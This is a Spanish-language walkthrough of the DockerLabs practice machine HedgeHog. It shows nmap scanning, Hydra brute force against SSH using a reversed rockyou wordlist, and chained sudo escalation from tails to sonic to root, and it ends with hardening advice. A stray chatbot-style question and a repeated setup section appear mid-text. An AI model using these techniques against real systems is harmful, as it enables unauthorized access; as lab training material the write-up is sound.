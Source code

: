 # 🖥️ Máquina: **HedgeHog**  
🔹 **Dificultad:** Muy Fácil  

---

## 📌 Descripción

**HedgeHog** es una máquina de práctica alojada en **DockerLabs**, ideal para quienes se están iniciando en el **pentesting**. Permite familiarizarse con técnicas básicas como:

- Ataques de fuerza bruta con **Hydra**  
- Extracción de metadatos desde archivos  
- Escalada de privilegios a través de configuraciones de **sudo** mal gestionadas  

![Logo de la máquina](/HedgeHog/Imagenes/Logo.png)

---

## 🧰 Preparativos

Descargamos e iniciamos la máquina vulnerable con el siguiente comando:

```bash
sudo bash auto_deploy.sh hedgehog.tar
```

![Inicio de la máquina](/HedgeHog/Imagenes/Iniciar.jpeg)

---

¿Quieres que este encabezado se repita cada vez que inicies una máquina nueva en tus documentos o videos?

---

## 🚀 Inicio

![Inicio](/HedgeHog/Imagenes/Logo.png)

Primero, descargamos e iniciamos la máquina vulnerable con el comando:

```bash
sudo bash auto_deploy.sh hedgehog.tar
```

![Iniciar máquina](/HedgeHog/Imagenes/Iniciar.jpeg)

---

## 📡 Verificar Conectividad

Hacemos un _ping_ a la IP de la máquina para confirmar que está activa. Usando el **TTL** (_Time To Live_) también podemos inferir el tipo de sistema operativo (Linux o Windows). Nota: estos valores pueden ser modificados.

```bash
ping 172.17.0.2
```

![Ping](/HedgeHog/Imagenes/Ping.jpeg)

---

## 🔍 Reconocimiento de Puertos

Iniciamos con un escaneo completo de puertos utilizando **nmap**:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Gracias a esto, descubrimos que están abiertos los puertos:

- **22 (SSH)**  
- **80 (HTTP)**

![Puertos Abiertos](/HedgeHog/Imagenes/Puerto.jpeg)

Tengo un script para extraer los puertos e IPs del archivo generado por nmap:

```bash
extractPorts allPorts.txt
```

Luego hacemos un escaneo más detallado en los puertos encontrados:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

![Servicios detectados](/HedgeHog/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis Web

Accedemos al servicio HTTP y encontramos un posible nombre de usuario para SSH. Confirmamos la tecnología usada en el sitio con:

```bash
whatweb 172.17.0.2
```

Probamos también con **Gobuster** y **Wfuzz** para buscar directorios o subdominios ocultos, pero no se encontró nada relevante.

![Página web](/HedgeHog/Imagenes/Pagina.jpeg)

---

## 🔓 Fuerza Bruta con Hydra

Al no tener éxito con métodos convencionales, intentamos un ataque por fuerza bruta con **Hydra**, pero fue lento, así que decidimos invertir el diccionario `rockyou.txt` para comenzar por las contraseñas menos comunes:

```bash
tac /usr/share/wordlists/rockyou.txt >> /usr/share/wordlists/rockyou_invertido.txt
```

Verificamos que hay espacios no deseados:

```bash
cat /usr/share/wordlists/rockyou_invertido.txt | head
```

Eliminamos los espacios:

```bash
sed -i 's/  //g' /usr/share/wordlists/rockyou_invertido.txt
```

¡Listo para usar con Hydra!

![Hydra ataque](/HedgeHog/Imagenes/Hydra.jpeg)

---

## 🧠 Escalada de Privilegios

Una vez dentro con las credenciales encontradas, analizamos cómo escalar de `tails` a `root`.

### 🔐 Paso 1: Verificar permisos de sudo

```bash
sudo -l
```

Resultado:

```bash
User tails may run the following commands on 04d3ae7efbc6:
    (sonic) NOPASSWD: ALL
```

Esto indica que `tails` puede ejecutar cualquier comando como el usuario `sonic` sin contraseña.

---

### 🔄 Paso 2: Intentar acceder al home de sonic

```bash
cd /home/sonic/
# Resultado: Permission denied
```

---

### 👤 Paso 3: Cambiar a sonic

```bash
sudo -u sonic /bin/bash
```

Ya como sonic, verificamos si también puede usar sudo:

---

### 🔼 Paso 4: Escalar a root desde sonic

```bash
sudo -u root /bin/bash
```

Y finalmente:

```bash
whoami
# Resultado: root
```

¡Acceso root conseguido!

![Escalada de privilegios](/HedgeHog/Imagenes/Privilegio.jpeg)

---

## ❓ ¿Por qué funcionó?

Aunque `tails` no podía ser root directamente, sí podía ejecutar comandos como `sonic`, y **sonic** tenía privilegios sudo sin restricción, lo que permitió encadenar el acceso a `root`.

---

## 🔒 Recomendación de Seguridad

- Evitar configuraciones como `NOPASSWD: ALL` sin una razón clara.
- Auditar el archivo `/etc/sudoers` y aplicar el principio de **mínimos privilegios**.
- Monitorizar el uso de cuentas con acceso sudo.

